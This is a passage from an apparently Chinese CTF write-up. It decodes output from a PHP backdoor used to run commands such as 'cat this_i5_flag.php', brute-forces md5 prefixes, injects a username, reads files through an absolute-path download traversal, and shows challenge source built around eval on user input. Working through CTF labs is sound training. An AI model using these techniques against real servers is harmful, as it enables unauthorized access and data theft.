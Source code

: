 ```php
}

function dec($out) {
    return gzuncompress(x(base64_decode($out), '4f7f28d7'));
}

echo dec('TPp8VHv2Kv4DTuVN+hCEff8ve2EBCpdlZk33ypDEwMumBIr0uCrKpbiq1Z5+6xyPHma96ydT');
?>
```

得到解码后的返回值：

```
b4ckdo0r.php flag.php index.php robots.txt this_i5_flag.php
```

然后执行命令 `cat this_i5_flag.php`，和上面一样的方法编码后发送得到编码后的 flag，再用同样方法解码即可。最后 flag 在页面注释中。

## GetFlag

熟悉的爆破 md5 套路：

```py
import hashlib, sys

for i in range(10**5, 10**8):
    val = hashlib.md5(str(i)).hexdigest()
    if val[:6] == sys.argv[1]:
        print(i)
        break
```

用户名可以直接注入，密码任意。登录后可以看到三个文件。提示说 flag 在 web 根目录。注意到文件的下载 url 为：

```
/Challenges/file/download.php?f=a.php
```

可以尝试下载 `flag.php`，但是显示 `flag{wow!!!but not true}`。猜想这里可能不能使用相对路径，换成绝对路径：

```
/Challenges/file/download.php?f=/var/www/html/Challenges/flag.php
```

得到源码：

```php
<?php
$f = $_POST['flag'];
$f = str_replace(array('`','$','*','#',':','\\','"',"'",'(',')','.','>'),'', $f);
if((strlen($f) > 13) || (false !== stripos($f,'return')))
{
        die('wowwwwwwwwwwwwwwwwwwwwwwwww');
}
try
{
         eval("\$spaceone = $f");
}
catch (Exception $e)
{
        return false;
}
if ($spaceone ==='flag'){
    echo file_get_contents("helloctf.php");
}

?>
```
